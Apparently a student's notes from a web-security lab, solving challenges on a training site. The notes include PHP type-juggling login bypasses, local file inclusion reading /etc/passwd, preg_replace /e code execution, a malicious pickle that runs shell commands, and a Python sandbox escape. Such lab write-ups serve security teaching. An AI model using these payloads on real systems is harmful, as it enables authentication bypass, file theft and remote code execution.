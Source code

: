 ## Lab 03 - server bugs

# Zadanie 1
https://uw2017.p4.team/type-juggling-ep1

http://meyerweb.com/eric/tools/dencoder/
```
{"login":"admin","token":0}
%7B%22login%22%3A%22admin%22%2C%22token%22%3A0%7D
```

# Zadanie 2
https://uw2017.p4.team/type-juggling-ep2/

https://www.functions-online.com/unserialize.html
https://www.base64encode.org
http://php.fnlist.com/php/serialize
http://phpepl.herokuapp.com

```
a:2:{s:8:"username";s:5:"admin";s:8:"password";i:0;}
YToyOntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtpOjA7fQ==
```

# Zadanie 3
https://uw2017.p4.team/type-juggling-ep3-hashcompare/

```
https://uw2017.p4.team/type-juggling-ep3-hashcompare/?var_a[]=1&var_b[]=2
```

# Zadanie 4
https://uw2017.p4.team/type-juggling-ep3-extra/

We are looking for sth that has the same beginning of the hash as '230'
hash for 230
`6da9003b743b65f4c0ccd295cc484e57`

https://md5db.net/explore/6DA9
Same hash beginning 'BUSH7ING'

# Zadanie 5
https://uw2017.p4.team/type-juggling-ep4-sorcerery/

We are looking for sth that will hash to `0e\d*` (after salting)

```
admin
6543210
```

# Zadanie 6
https://uw2017.p4.team/include-everything/

```
https://uw2017.p4.team/include-everything/?file=/etc/passwd
https://uw2017.p4.team/include-everything/?file=php://filter/convert.base64-encode/resource=home.php
```
```
<?php
  print('<p>First, try to read /etc/passwd.</p>');
  print('<p>Second, read home.php sourcecode.</p>');
  /*Next challange: /include-everything2/*/
?>
```

# Zadanie 7
https://uw2017.p4.team/include-everything2

# Zadanie 8
https://uw2017.p4.team/preg-replace/

https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace

```
/ma/e
Ala ma kota
system('ls')
```
```
https://uw2017.p4.team/preg-replace/916ef8976ac588e8b3d5e228708ed974
```

# Zadanie 9
https://uw2017.p4.team/pickle

```
c__builtin__
eval
(S'1+1'
tR.
```
```
c__builtin__
eval
(S'__import__("subprocess").check_output('cat /flag', shell=True)'
tR.
```

# Python
object subclasses -> catch_warnings
catch_warnings.__init__.__globals__['__builtins']['__import__']("os").system("echo a")
